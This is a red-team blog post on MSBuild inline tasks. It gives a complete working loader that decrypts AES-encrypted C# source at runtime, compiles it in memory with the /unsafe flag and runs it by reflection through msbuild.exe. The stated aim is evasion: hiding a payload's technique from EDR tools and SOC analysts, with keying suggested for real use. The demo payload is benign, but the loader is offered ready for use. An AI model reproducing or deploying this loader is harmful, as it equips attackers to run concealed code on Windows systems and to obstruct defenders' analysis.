

## Unsafe Inline MSBuild Tasks - Part 2

I [wrote a post recently](https://localh0st.run/post/msbuilding-unsafe-tasks/) about a technique leveraging `System.Reflection` to pass CLI arguments into `csc.exe` when compiling MSBuild inline tasks. This isn't *my research*, but uses a technique that seems to have been discovered(? idk) by the Social Engineering Toolkit (SET) guys. 

The goal of this technique is to allow the `unsafe` keyword to be used when building C# inline msbuild tasks via XML. `unsafe` is a necessary keyword when manipulating unmanaged memory in C#, something that normally wouldn't be an issue... until you're trying to use it in msbuild tasks, which won't play nicely with `unsafe`.

## MSBuild Task Challenges

Harsh reality about "malicious" tasks is that they're *dropped to disk* and run against `msbuild.exe`. It doesn't really matter how advanced the code is; undetectable by EDR, disguised as a legitimate updater, etc. Once it's on disk, a sample can be easily reversed to understand what types of nefarious activities are taking place. Even if your sample does some cheeky keying before executing, the protection might just be worthless if an analyst can just *modify the task themself*, then exec it. From an evasion perspective, it's ideal to protect the actual techniques used in the payload, right? If Derek from the SOC finds your cool injection technique in 15 seconds because they just opened the file and read the source, that sucks. 

In typical MSBuild tasks it's common to encrypt the shellcode bytes, then decrypt them at execution via some key. While this ensures the (likely) beacon can't be signatured, generally the meat of the exploit is what *runs* that payload... which is still cleartext lol.

## Encrypting the task contents

The reflection technique isn't only powerful in it's ability to pass CLI args, it now affords tasks more flexibility and the ability to encrypt almost the *entire payload*. The same techniques used to encrypt and decrypt shellcode can be employed against the `source = @"";` string contents. This means an entire C# application can be embedded as an encrypted value, then decrypted at runtime. It will be clear to an analyst that some sort of reflective loading is taking place, but without the decrypted source, it's unknown *what* that application does once it's executed.

Pretty cool!

Take the following C#, used in the first post as an unsafe example:

```csharp
using System;
namespace TaskXML
{
    public class Program
    {
        public static void Run()
        {
            Console.WriteLine(""[!] 'Run()' entered"");
            unsafe
            {
                Console.WriteLine(""[!] unsafe block entered"");
                int x = 1;
                int* ptr;
                ptr = &x;

                Console.WriteLine(""[!] unsafe pointer usage. x = {0}"", *ptr); 
            }
        }
    }
}
```

Written to the task as is, there's obviously no anti-debug / anti-reversing protections and it's plain as day what's happening. Sure, we could obfuscate this some (a good idea), but it's still cleartext.

Same code, AES'd:

`mg8UTtk5F+PCtoG9dJtcGw==!xc/o49voNs+j6LrJFYML0ccmpk3AebR+ujFL8HcildV3e2xLfCOMJT2YbhGtZNY0Um+F7VDlHzf0QvDMXl3tWPXb9vCJwmY7TTOsk0GceF5vqRfmIk36c3DLksQNipqITT7SmaQiTr5IOg4Ce5W/BzrDQtoER7RrUa3oCnFZOTk6YMevz++rgAyEyDHuZ7RYk707A4FZInHAsSSta0Fdriz2w/FelXCzNmBemPK+3gKHA2Ld68LvZqezPRk6wdHTPOK/zWakYlNOjCr+1U7W5C/DY5CUy/XrS/+vRoL6CZtnx0GI1ckf0SCpk+z3oFgO4FKkQU2vWDz3jmljJlFm9x3LRQcK9VTH7ZZBOzzmAgI6Ij5yerEePPULMCqKDrNQ4dXMJwOhCxzBAsByYp9RNIMHxBhdliRwOI0UIA9UYflZkOfw8xk+SYeX8/ernYVmfne5MGL4kjDdzj/r+GjFDr03ShOCU8jKA1A45xqAqf8ZFskKyskvKrWJH5wI4K4d5HH9Ds5wA8myt1+ik56xklZFyf8aiCqVVt1YusZgRESLj23a7Q0P+g4wx3jKtuWWaXAaUakMOju44ZYN3r+rngmhY/by6T9TWjEbhi3AE/u7zxOMhNUxBNfPoOGQuDRvn6R5jTF7XbC/9/WybSOmgcfBy19iTNQUpMW+0p9lyIcV7iHAg+K5r86WjEDVtp9F5LUx2CBYbdSOrOwVoH6XgSZ+5pGsstTF+U8LMpQzMUI2b7VqWOdEIb5rIC2YOHiaDJbNaiD04uCtJ4MPE8s6mtFQGrJN+GmOc5J78ZiVG13Iaxek4spfoKlF4KuGEu5XfKF6NPsdvo8yxSuGgjsAhX/Pa+OKzhEIgZ+YRsXe9GiC7FGf6HIc3C7/EPA5jHm1JZEHpu4ha2EZl734UK9BVA==`

Or, represented as a byte array. 

> *Shoutout to Arno0x for their [ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper/tree/master) repo. While there are a million and one encoders out there, this one is just useful as it creates decryption templates automagically in C#/++/py :)*

```csharp
byte[] b = new byte[] { 56, 98, 189, 242, 92, 13, 200, 62, 154, 121, 16, 241, 45, 216, 118, 255, 80, 250, 230, 35, 232, 49, 104, 195, 8, 250, 68, 58, 137, 137, 161, 200, 31, 57, 160, 54, 25, 235, 50, 198, 185, 76, 160, 82, 57, 14, 100, 222, 24, 55, 19, 7, 255, 206, 191, 204, 132, 44, 81, 196, 232, 149, 153, 235, 96, 154, 27, 54, 233, 117, 41, 200, 65, 209, 14, 140, 48, 205, 146, 86, 149, 207, 255, 103, 114, 35, 251, 245, 251, 176, 124, 15, 130, 235, 229, 114, 114, 91, 94, 230, 37, 238, 204, 201, 94, 204, 196, 245, 229, 150, 98, 141, 114, 67, 118, 95, 76, 20, 58, 40, 51, 30, 52, 42, 90, 154, 158, 162, 92, 142, 56, 211, 74, 103, 54, 118, 225, 28, 132, 232, 161, 110, 163, 232, 195, 218, 191, 223, 138, 143, 140, 138, 205, 229, 43, 166, 43, 253, 240, 7, 14, 16, 80, 23, 192, 147, 218, 216, 155, 19, 210, 56, 193, 88, 252, 206, 49, 33, 126, 189, 16, 251, 129, 253, 194, 182, 66, 190, 69, 226, 169, 126, 222, 160, 236, 250, 245, 183, 204, 92, 188, 9, 22, 111, 235, 140, 195, 130, 207, 148, 183, 64, 13, 82, 158, 173, 212, 74, 210, 28, 221, 239, 11, 209, 19, 2, 178, 14, 211, 76, 86, 207, 44, 149, 110, 68, 91, 125, 76, 0, 171, 199, 28, 220, 240, 179, 248, 205, 76, 93, 201, 147, 239, 29, 120, 138, 64, 166, 171, 63, 7, 229, 140, 35, 92, 43, 111, 174, 147, 14, 243, 189, 67, 249, 216, 106, 116, 182, 105, 234, 74, 199, 57, 116, 76, 134, 70, 52, 74, 20, 2, 130, 120, 17, 234, 112, 142, 236, 140, 90, 249, 58, 127, 125, 114, 198, 74, 80, 41, 186, 129, 100, 59, 14, 213, 41, 31, 112, 91, 191, 11, 192, 174, 63, 6, 111, 19, 71, 8, 48, 19, 50, 22, 23, 33, 135, 171, 197, 97, 3, 28, 7, 20, 114, 86, 207, 8, 47, 151, 174, 35, 29, 41, 123, 87, 47, 68, 129, 108, 32, 62, 81, 166, 119, 46, 246, 227, 127, 144, 200, 62, 142, 13, 195, 189, 193, 50, 240, 168, 70, 175, 83, 14, 146, 223, 29, 204, 39, 22, 17, 82, 162, 77, 233, 110, 193, 63, 35, 61, 71, 147, 138, 158, 149, 230, 79, 176, 182, 7, 230, 162, 148, 84, 250, 165, 65, 100, 148, 89, 252, 106, 52, 10, 104, 145, 59, 249, 169, 65, 101, 115, 51, 172, 103, 138, 219, 4, 24, 227, 8, 78, 132, 84, 8, 172, 198, 160, 135, 188, 237, 187, 179, 129, 224, 112, 72, 150, 159, 29, 161, 223, 165, 174, 130, 203, 103, 23, 129, 119, 114, 168, 194, 44, 104, 65, 214, 48, 81, 8, 46, 207, 56, 251, 195, 182, 171, 217, 14, 48, 50, 220, 179, 59, 69, 103, 227, 9, 191, 71, 121, 196, 38, 156, 53, 187, 206, 107, 105, 100, 139, 219, 217, 226, 161, 97, 53, 2, 251, 159, 27, 61, 167, 59, 50, 242, 95, 0, 178, 230, 160, 44, 112, 160, 161, 184, 57, 211, 134, 187, 100, 88, 108, 83, 116, 51, 222, 232, 1, 211, 156, 218, 76, 7, 185, 91, 4, 56, 137, 210, 60, 174, 211, 230, 93, 217, 23, 221, 54, 44, 39, 56, 199, 96, 20, 206, 106, 56, 227, 141, 121, 144, 7, 4, 240, 134, 81, 253, 123, 42, 63, 131, 203, 55, 151, 204, 187, 237, 140, 188, 222, 10, 245, 236, 142, 185, 167, 250, 28, 38, 30, 240, 157, 57, 181, 152, 147, 152, 49, 91, 239, 122, 233, 119, 187, 137, 234, 164, 129, 80, 212, 205, 181, 180, 126, 255, 29, 101, 255, 234, 93, 197, 228, 251, 208, 45, 160, 37, 231, 29, 175, 229, 63, 151, 254, 51, 144, 144, 146, 40, 161, 61, 10, 51, 80, 135, 168, 179, 42, 112, 1, 180, 189, 36, 190, 218, 37, 250, 197, 60, 1, 234, 226, 49, 57, 244, 52, 224, 43, 110, 212, 64, 31, 70, 126, 159, 169, 153, 61, 146, 164, 18, 86, 160, 229, 246, 250, 61, 183, 197, 33, 189, 244, 15, 133, 104, 20, 30, 192, 59, 69, 166, 75, 181, 60, 20, 18, 223, 69, 5, 53, 133, 14, 62, 131, 236, 47, 183, 13, 162, 51, 219, 51, 247, 191, 215, 147, 99, 112, 223, 142, 54, 76, 232, 63, 31, 44, 236, 221, 252, 58, 84, 176, 217, 89, 106, 140, 152, 141, 242, 72, 174, 165, 190, 182, 79, 122, 250, 121, 196, 52, 177, 198, 149, 32, 89, 74, 31, 161, 209, 122, 1, 38, 240, 240, 168, 147, 60, 151, 135, 108, 62, 158, 232, 111, 80, 46, 208, 228, 131, 188, 212, 184, 13, 14, 16, 170, 16, 206, 40, 90, 246, 30, 211, 62, 205, 199, 167, 60, 240, 120, 57, 10, 141, 236, 111, 143, 94, 48, 97, 38, 83, 128, 119, 161, 221, 45, 49, 117, 238, 234, 212, 126, 230, 24, 222, 224, 155, 229, 60, 225, 141, 55, 92, 200, 230, 13, 218, 32, 12, 20, 8, 241, 49, 240, 222, 60, 94, 245, 171, 213, 85, 144, 177, 19, 73, 7, 126, 3, 166, 175, 228, 115, 213, 27, 154, 243, 107, 85, 68, 91, 57, 16, 198, 72, 79, 119, 39, 176, 201, 121, 91, 35, 140, 233, 161, 181, 253, 84, 214, 27, 13, 93, 7, 135, 210, 115, 206, 190, 190, 19, 246, 42, 13, 42, 9, 200, 218, 129, 109, 79, 34, 82, 80, 21, 78, 216, 113, 16, 160, 64, 222, 7, 176, 255, 143, 3, 60, 87, 100, 81, 35, 137, 157, 166, 151, 82, 4, 223, 38, 110, 176, 74, 228, 211, 148, 247, 8, 144, 95, 48, 16, 155, 38, 127, 139, 79, 234, 94, 21, 214, 236, 5, 97, 176, 173, 178, 23, 205, 251, 78, 108, 255, 182, 247, 158, 43, 29, 158, 210, 38, 41, 174, 130, 96, 98, 246, 35, 78, 30, 168, 235, 242, 172, 215, 45, 193, 204, 63, 236, 26, 215, 35, 39, 155, 179, 183, 253, 98, 35, 252, 240, 245, 219, 218, 101, 98, 90, 65, 82, 119, 222, 158, 52, 188, 162, 5, 154, 160, 212, 113, 209, 63, 196, 192, 242, 224, 168, 241, 213, 25, 75, 250, 240, 218, 170, 193, 178, 144, 79, 198, 124, 55, 207, 210, 166, 197, 240, 94, 91, 177, 156, 87, 155, 144, 72, 236, 242, 20, 178, 148, 235, 199, 163, 127, 37, 22, 188, 46, 118, 3, 113, 31, 146, 230, 11, 38, 135, 100, 130, 48, 121, 8, 69, 117, 245, 229, 226, 222, 0, 15, 196, 94, 127, 222, 212, 170, 59, 170, 46, 164, 109, 175, 103, 81, 110, 227, 93, 67, 181, 105, 191, 117, 21, 155, 158, 164, 186, 167, 169, 123, 255, 91, 136, 20, 220, 10, 79, 137, 97, 156, 105, 152, 99, 81, 212, 108, 69, 158, 209, 137, 163, 183, 22, 134, 64, 194, 221, 125, 210, 237, 111, 114, 109, 14, 116, 33, 73, 118, 183, 175, 225, 44, 168, 136, 109, 174, 45, 192, 45, 71, 159, 202, 15, 91, 81, 83, 168, 237, 213, 187, 239, 183, 103, 208, 91, 228, 191, 201, 237, 40, 142, 5, 92, 133, 222, 154, 20, 153, 133, 68, 56, 158, 94, 132, 11, 2, 253, 36, 87, 174, 135, 80, 137, 113, 235, 215, 62, 28, 217, 170, 242, 228, 229, 243 };
```

Now, the task can be modified to decrypt this string (or array), and pass it to the assembly builder. 

## PoC



There you have it, decrypted C# source, compiled with `csc.exe /unsafe`, reflected and executed by `msbuild.exe` during inline task execution. In a real scenario we'd want to go a few steps further to implement a keying strategy, but this works for a demo.

Here's the code:
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="TestTask">
<TestTask />
</Target>
<UsingTask
TaskName="TestTask"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
<Task>
<Using Namespace="System" />
<Using Namespace="System.Reflection" />
<Using Namespace="System.Diagnostics" /> 
<Code Type="Class" Language="cs">

<![CDATA[

using System;
using System.Reflection;
using Microsoft.CSharp;
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;
using System.Text;
using System.IO;
using System.Security.Cryptography;
using System.Runtime.InteropServices;

public class TestTask : Task, ITask
{
    public override bool Execute()
    {      
        

        byte[] encryptedShellcode = { 0x11,0x7c,0xcb,0x95,0xaa,0xbb,0x0d,0xe8,0xff,0x5b,0x82,0x8d,0xa5,0xc0,0xf7,0x59,0xc6,0xdc,0x6b,0xc9,0x75,0x4f,0xbf,0x3e,0x82,0x95,0x0b,0xfc,0x2e,0xc0,0x70,0x21,0x78,0xc8,0x3f,0xd6,0x08,0x06,0x51,0x07,0x03,0x5d,0x81,0x0c,0x5d,0xa8,0x87,0xce,0x35,0x61,0xd0,0xe3,0xa1,0x26,0x31,0x84,0x88,0x41,0xf4,0x1d,0xe7,0x2f,0x51,0xb6,0xab,0x7c,0xad,0x49,0x9e,0x28,0x6d,0xac,0xac,0xf2,0xb3,0xc5,0x37,0x3f,0x72,0xe7,0xaf,0x03,0xff,0x16,0x66,0xe7,0x3b,0x02,0x7d,0x47,0x19,0x39,0xd7,0x44,0x5b,0xa4,0x48,0x23,0x1f,0x2d,0x5b,0x41,0xe2,0xf9,0x07,0xda,0x0f,0x3f,0xa8,0x24,0x21,0xab,0x3c,0xc6,0x45,0xf9,0xb0,0x94,0xaf,0x56,0x48,0x85,0x4c,0x77,0x42,0x26,0x6a,0xff,0x53,0xfb,0xab,0x4d,0xe7,0x70,0x6b,0x03,0x2a,0x9c,0x8d,0x42,0x09,0x11,0x1f,0x7f,0x83,0x2c,0xec,0x59,0x19,0x1e,0xba,0x65,0x2c,0x9e,0xa9,0x05,0x0b,0xff,0x19,0x9f,0x80,0x9e,0x89,0x39,0x87,0x5a,0xc4,0x42,0xdf,0x51,0x66,0x76,0xd6,0x35,0xe2,0x71,0x4c,0xf6,0xf3,0x9d,0x44,0xbb,0x3d,0x44,0x3c,0x0c,0x74,0x53,0xe8,0x9d,0xda,0x50,0xea,0x9e,0x4c,0x1f,0xd5,0x3b,0xe6,0x41,0xfa,0xc1,0xbb,0x83,0xf8,0xf4,0x4f,0x82,0x80,0x6b,0x23,0x00,0x7f,0xed,0x40,0xe6,0x1b,0x01,0x35,0x98,0x5a,0xc5,0x70,0x2c,0x32,0xaf,0x08,0x92,0x93,0xed,0xdb,0x8c,0xc9,0x92,0xe3,0x33,0xa5,0x26,0x7a,0x6d,0xf9,0x0f,0xdd,0xc7,0x1e,0x0a,0x56,0xb9,0xeb,0xb1,0x2d,0xa4,0x36,0x50,0x90,0x64,0xdb,0xa7,0x33,0xa6,0x04,0xf0,0xfc,0xfb,0x60,0x91,0x3b,0xa7,0x2c,0xc9,0x82,0x7a,0x28,0x3f,0x34,0xe7,0x04,0x5d,0x05,0x69,0x89,0xf3,0xa1,0xa6,0xb5,0x4b,0xfb,0x58,0x7c,0x3c,0xac,0x73,0x8e,0x13,0xc2,0x0a,0xa4,0xd9,0xcd,0xd8,0x93,0x68,0x07,0x40,0x01,0x1d,0x69,0x82,0x88,0x7c,0xb7,0x86,0x1a,0xd5,0xb0,0x3d,0x0b,0x3a,0xf1,0x89,0x9d,0xd9,0xce,0xf3,0x16,0xd5,0xb9,0xfd,0x92,0xa3,0x07,0x87,0xb1,0xcd,0x2b,0xea,0x9a,0x88,0x70,0xaf,0x6b,0xd2,0x3a,0xb5,0x41,0x98,0x21,0x27,0x5f,0x2e,0xc3,0x1c,0x26,0xe1,0x2e,0x14,0xa6,0xdf,0x31,0xd9,0x19,0x93,0x7b,0xbf,0x61,0x97,0x46,0x53,0xcc,0x48,0xfe,0x7c,0xb4,0x90,0xed,0x48,0x10,0x46,0x59,0xf6,0x77,0x6e,0x96,0x10,0x70,0x62,0xc2,0xcf,0x96,0x52,0x69,0x10,0x99,0xe8,0x71,0x71,0x3a,0xc1,0x28,0x1c,0x73,0x19,0xb8,0xd1,0x6f,0x5e,0xcf,0x48,0x7e,0x60,0xce,0xae,0xef,0x61,0x41,0xc0,0x3f,0x98,0xc1,0xa1,0x7c,0x50,0x05,0xde,0x8c,0x53,0xa2,0x47,0x8b,0x75,0x68,0x53,0x81,0xc5,0x4e,0x58,0x71,0x36,0xae,0xfb,0x58,0x4b,0xee,0x33,0xfe,0x8d,0x71,0x54,0x9f,0x8e,0xdd,0xe4,0x12,0xe8,0x9d,0x28,0x6e,0xf3,0x73,0x21,0xa6,0x77,0x6b,0x93,0x75,0x68,0x1c,0x06,0x0f,0x75,0x95,0x00,0xff,0x8b,0x9c,0xbe,0x3e,0xb9,0xfb,0x52 };
        
        string key = "Fwv9NaNZcH6M5SGCzPCZrw==";
        byte[] shellcode = Stuff.aesDecrypt(encryptedShellcode, Convert.FromBase64String(key));

        var source = System.Text.Encoding.UTF8.GetString(shellcode);
        Console.WriteLine("[!] Decrypted source:\n----------\n" + source + "\n----------");

        Assembly a = Builder.Build(source.ToString());
        Type hw = a.GetType("TaskXML.Program");
        MethodInfo r = hw.GetMethod("Run");
        r.Invoke(null, null);
        Console.WriteLine("[!] Done.");
        return true;
    }
}

public class Builder
{
    public static Assembly Build(string SourceString)
    {
        CSharpCodeProvider codeProvider = new CSharpCodeProvider();

        System.CodeDom.Compiler.CompilerParameters parameters = new System.CodeDom.Compiler.CompilerParameters();
        parameters.GenerateInMemory = true;
        parameters.CompilerOptions = @"/unsafe";
        System.CodeDom.Compiler.CompilerResults results = codeProvider.CompileAssemblyFromSource(parameters,SourceString);

        Assembly a = results.CompiledAssembly;
        if(a != null) return a;
        else
        {
            Assembly nullAssembly = Assembly.GetExecutingAssembly();
            Console.WriteLine("Null Assembly");
            return nullAssembly;
        }
    }
}

// Courtesy of https://github.com/Arno0x/ShellcodeWrapper/tree/master
//
public static class Stuff
{
    static T[] SubArray<T>(this T[] data, int index, int length)
    {
        T[] result = new T[length];
        Array.Copy(data, index, result, 0, length);
        return result;
    }

    public static byte[] aesDecrypt(byte[] cipher, byte[] key)
    {
        var IV = cipher.SubArray(0, 16);
        var encryptedMessage = cipher.SubArray(16, cipher.Length - 16);

        // Create an AesManaged object with the specified key and IV.
        using (AesManaged aes = new AesManaged())
        {
            aes.Padding = PaddingMode.PKCS7;
            aes.KeySize = 128;
            aes.Key = key;
            aes.IV = IV;

            using (MemoryStream ms = new MemoryStream())
            {
                using (CryptoStream cs = new CryptoStream(ms, aes.CreateDecryptor(), CryptoStreamMode.Write))
                {
                    cs.Write(encryptedMessage, 0, encryptedMessage.Length);
                }

                return ms.ToArray();
            }
        }
    }
}
]]>
</Code>
</Task>
</UsingTask>
</Project>
```
